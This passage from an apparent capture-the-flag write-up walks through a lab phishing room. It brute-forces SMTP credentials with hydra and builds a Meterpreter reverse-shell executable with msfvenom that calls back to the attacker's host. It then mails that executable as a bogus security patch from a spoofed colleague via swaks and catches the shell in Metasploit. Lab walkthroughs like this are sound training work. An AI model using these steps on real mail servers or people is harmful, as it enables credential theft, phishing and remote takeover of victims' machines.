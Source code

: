 With that wordlist you now can try to brute force the SMTP server.

```sh
hydra -L emails.txt -P wordlist.txt -I -u smtp://10.10.207.204
```

This should take only a few seconds and you should get results.

![](/assets/blog/You-Got-Mail/pass2.png)

With this you now have access to a SMTP. Because this is a phishing room, my first idea was to send a executable to the emails we have already discovered. For that I used the Metasploit framework. I first generated a executable.

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.14.78.229 LPORT=4444 -f exe > update.exe
```

Now I needed to send a mail, for that I use `swaks`, which is a easy commandline tool for sending mails.

```sh
swaks \
  --to oaurelius@brownbrick.co \
  --server 10.10.207.204 \
  --from lhedvig@brownbrick.co \
  --attach update.exe \
  --body 'Patch your security with this executable!' \
  --port 25 \
  --header 'Subject: Important from Security Team' \
  --port 587 \
  --auth-user 'lhedvig@brownbrick.co' \
  --auth-password 'PASSWORD_YOU_FOUND'
```

Before sending the mail, you need to start a listener in Metasploit.
```sh
msfconsole
> use exploit/multi/handler
> set lhost tun0
> set payload windows/x64/meterpreter/reverse_tcp
> run
```

After around 1 minute you should get a connection back.

On the machine we are the user wrohit:
